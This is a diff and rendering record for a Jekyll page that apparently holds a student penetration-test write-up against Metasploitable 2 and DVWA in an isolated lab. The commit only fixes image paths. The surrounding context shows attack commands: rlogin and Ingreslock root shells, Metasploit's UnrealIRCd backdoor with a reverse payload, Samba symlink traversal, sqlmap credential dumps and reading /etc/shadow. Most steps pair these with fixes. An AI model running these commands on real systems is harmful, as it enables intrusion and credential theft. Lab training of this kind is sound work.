

Before and after one commit to ii0ns/ii0ns.github.io, a Jekyll site: the page built from _projects/2025-12-27-pentest-metasploitable2.md, in a window 1280 px wide and 900 px high, scrolled down 803 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

````diff
--- a/_projects/2025-12-27-pentest-metasploitable2.md
+++ b/_projects/2025-12-27-pentest-metasploitable2.md
@@ -27,7 +27,7 @@ Before anything else, we needed a safe, isolated environment to work in. Running
 
 We used **VMware Network Editor** to create a private virtual network (VMnet16) that only exists inside our computers. Our attacking machine (Kali Linux) and our target (Metasploitable 2) were both placed on this network, completely cut off from the internet and the host machine.
 
-![VMware Network Editor — isolated lab setup](assets/pentest1-prjct-media/im1.png)
+![VMware Network Editor — isolated lab setup](/assets/pentest1-prjct-media/im1.png)
 *Our custom isolated network: subnet 192.168.67.0, no external connection*
 
 > **Why Metasploitable 2?** It's a Linux virtual machine intentionally configured with old, vulnerable software and terrible security settings. It's the standard practice target used in cybersecurity courses worldwide, you're meant to hack it.
@@ -72,10 +72,10 @@ We then converted the XML output into a readable HTML page:
 xsltproc /home/ozyn/Desktop/scan.xml -o /home/ozyn/Desktop/scan.html
 ```
 
-![Nmap terminal output](assets/pentest1-prjct-media/im2.jpeg)
+![Nmap terminal output](/assets/pentest1-prjct-media/im2.jpeg)
 *Every line here is an open port — a service waiting for connections on the target*
 
-![Nmap results in browser](assets/pentest1-prjct-media/im3.png)
+![Nmap results in browser](/assets/pentest1-prjct-media/im3.png)
 *The HTML report gives a clean overview of every open port, protocol, and service name*
 
 ### What Did We Find?
@@ -118,7 +118,7 @@ Scanning tells you *what's open*. Enumeration goes a layer deeper, it pulls spec
 nmap -sV -p 5432 192.168.1.129
 ```
 
-![PostgreSQL version fingerprint](assets/pentest1-prjct-media/im4.jpeg)
+![PostgreSQL version fingerprint](/assets/pentest1-prjct-media/im4.jpeg)
 *PostgreSQL 8.3.0–8.3.7 detected — a version from 2008 with multiple documented CVEs*
 
 **UnrealIRCD — Ports 6667 & 6697:**
@@ -127,7 +127,7 @@ nmap -sV -p 5432 192.168.1.129
 nmap -sV -p 6667,6697 192.168.67.129
 ```
 
-![UnrealIRCD version detected](assets/pentest1-prjct-media/im5.png)
+![UnrealIRCD version detected](/assets/pentest1-prjct-media/im5.png)
 *UnrealIRCd confirmed — this specific build contains CVE-2010-2075, a supply chain backdoor*
 
 **NFS — Port 2049:**
@@ -143,7 +143,7 @@ showmount -e 192.168.67.129
 
 > **What is NFS?** Network File System — a protocol that lets a server share folders with other machines over the network, like a shared drive on a corporate network.
 
-![rpcinfo and showmount results](assets/pentest1-prjct-media/im6.png)
+![rpcinfo and showmount results](/assets/pentest1-prjct-media/im6.png)
 *The root filesystem `/` is exported to `*`*
 
 **Samba — SMB:**
@@ -154,7 +154,7 @@ smbclient -L //192.168.67.129
 
 > **What is Samba/SMB?** SMB (Server Message Block) is the protocol Windows machines use to share files and printers. Samba is the Linux implementation of the same protocol.
 
-![Samba shares listed anonymously](assets/pentest1-prjct-media/im7.jpeg)
+![Samba shares listed anonymously](/assets/pentest1-prjct-media/im7.jpeg)
 *Anonymous login works without credentials — the `tmp` share is writable by anyone*
 
 With all of this mapped out, we moved to the attack phase.
@@ -179,7 +179,7 @@ The r-services (`rexec`, `rlogin`, `rsh`) are remote access tools from the 1980s
 rlogin -l root 192.168.67.129
 ```
 
-![Instant root shell via rlogin](assets/pentest1-prjct-media/im8.png)
+![Instant root shell via rlogin](/assets/pentest1-prjct-media/im8.png)
 *One command. No password. Full root shell on the target machine.*
 
 **✓  Fix:** These services have no place in modern systems. Remove them entirely:
@@ -229,7 +229,7 @@ umount /tmp/r00t
 ssh root@192.168.67.129
 ```
 
-![Root SSH login via NFS exploit](assets/pentest1-prjct-media/im9.jpeg)
+![Root SSH login via NFS exploit](/assets/pentest1-prjct-media/im9.jpeg)
 *Full root SSH access — achieved entirely through a file sharing misconfiguration*
 
 **✓  Fix:** Never export `/`. Restrict NFS exports to specific directories and trusted IPs, and always enable `root_squash` (which prevents remote root from having root-level write access on the share):
@@ -257,7 +257,7 @@ set PAYLOAD cmd/unix/reverse
 exploit
 ```
 
-![Metasploit triggering the UnrealIRCD backdoor](assets/pentest1-prjct-media/im10.png)
+![Metasploit triggering the UnrealIRCD backdoor](/assets/pentest1-prjct-media/im10.png)
 *Metasploit connects, sends the trigger, and a root shell opens on our machine*
 
 **✓  Fix:** Stop the UnrealIRCD service, block port 6667 at the firewall, and replace the software with a legitimate, verified version.
@@ -272,7 +272,7 @@ Port 1524 is running a plain backdoor called **Ingreslock**. Any client that con
 telnet 192.168.67.129 1524
 ```
 
-![Ingreslock instant root shell](assets/pentest1-prjct-media/im11.png)
+![Ingreslock instant root shell](/assets/pentest1-prjct-media/im11.png)
 *Connected. Root shell. No credentials. No exploit. That's how bad this one is.*
 
 ---
@@ -292,7 +292,7 @@ set SMBSHARE tmp
 exploit
 ```
 
-![Samba symlink traversal](assets/pentest1-prjct-media/im12.png)
+![Samba symlink traversal](/assets/pentest1-prjct-media/im12.png)
 *A symlink named `rootfs` is created inside the share, pointing straight to `/`*
 
 We then connected with `smbclient` and browsed the full server:
@@ -302,7 +302,7 @@ smbclient //192.168.67.129/tmp
 smb: \> ls
 ```
 
-![SMB full filesystem access](assets/pentest1-prjct-media/im13.png)
+![SMB full filesystem access](/assets/pentest1-prjct-media/im13.png)
 *The entire server filesystem is now browsable through the SMB tmp share*
 
 **✓  Fix:** Remove anonymous and writable access, set `wide links = no` in `smb.conf`, and apply host-level access controls.
@@ -338,7 +338,7 @@ SELECT current_user, session_user;
 SELECT rolname, rolsuper FROM pg_roles WHERE rolname = current_user OR rolname='postgres';
 ```
 
-![PostgreSQL superuser access confirmed](assets/pentest1-prjct-media/im14.jpeg)
+![PostgreSQL superuser access confirmed](/assets/pentest1-prjct-media/im14.jpeg)
 *`rolsuper = t` — we are superuser. Full database control, no restrictions.*
 
 ---
@@ -362,13 +362,13 @@ Credentials found: **admin / password**
 
 We opened Burp's built-in browser, logged into DVWA, and navigated to the SQL Injection page. Submitting a User ID request let Burp capture the full raw HTTP request in Proxy → HTTP History.
 
-![Burp Suite HTTP history](assets/pentest1-prjct-media/im15.png)
+![Burp Suite HTTP history](/assets/pentest1-prjct-media/im15.png)
 *Burp Suite intercepts every request between our browser and DVWA*
 
-![DVWA SQL Injection page](assets/pentest1-prjct-media/im16.png)
+![DVWA SQL Injection page](/assets/pentest1-prjct-media/im16.png)
 *The SQL Injection vulnerability page — we enter a User ID and Burp grabs the request*
 
-![Raw HTTP request in Burp](assets/pentest1-prjct-media/im17.png)
+![Raw HTTP request in Burp](/assets/pentest1-prjct-media/im17.png)
 *The full raw GET request — we save this as request.txt for sqlmap*
 
 #### Step 3 — Enumerate Databases with sqlmap
@@ -381,7 +381,7 @@ We opened Burp's built-in browser, logged into DVWA, and navigated to the SQL In
 sqlmap -r request.txt --batch --dbs
 ```
 
-![sqlmap finding 7 databases](assets/pentest1-prjct-media/im18.png)
+![sqlmap finding 7 databases](/assets/pentest1-prjct-media/im18.png)
 *7 databases found: dvwa, information_schema, metasploit, mysql, owasp10, tikiwiki, tikiwiki195*
 
 #### Step 4 — Dump the DVWA Tables
@@ -390,14 +390,14 @@ sqlmap -r request.txt --batch --dbs
 sqlmap -r request.txt --batch -D dvwa --tables
 ```
 
-![DVWA tables: guestbook and users](assets/pentest1-prjct-media/im19.png)
+![DVWA tables: guestbook and users](/assets/pentest1-prjct-media/im19.png)
 *DVWA has 2 tables: `guestbook` and `users`*
 
 ```bash
 sqlmap -r request.txt --batch -D dvwa --dump-all --output-dir=~/Downloads/sqlmap
 ```
 
-![Full DVWA dump with user credentials](assets/pentest1-prjct-media/im20.png)
+![Full DVWA dump with user credentials](/assets/pentest1-prjct-media/im20.png)
 *Complete users table extracted — usernames, hashed passwords, avatars, and all*
 
 **✓  Fix for all database vulnerabilities:**
@@ -431,7 +431,7 @@ cat /etc/passwd && cat /etc/shadow
 
 > **What is /etc/shadow?** A file containing the hashed passwords for every user account on the system. Only root can read it. If an attacker has this, they can attempt offline cracking to recover real passwords.
 
-![Privilege verification output](assets/pentest1-prjct-media/im21.png)
+![Privilege verification output](/assets/pentest1-prjct-media/im21.png)
 *Full root confirmed — unrestricted sudo access across the entire system*
 
 ---
@@ -446,7 +446,7 @@ route -n         # Kernel IP routing table
 cat /proc/version
 ```
 
-![System enumeration](assets/pentest1-prjct-media/im22.png)
+![System enumeration](/assets/pentest1-prjct-media/im22.png)
 *OS version, kernel details, network layout — all useful for planning further actions*
 
 ---
````
Also changed, not shown: _projects/2025-10-17-nmap-commands-guide.md (+13 -13 lines), _projects/2025-11-09-evil-twin-attack.md (+6 -6 lines).
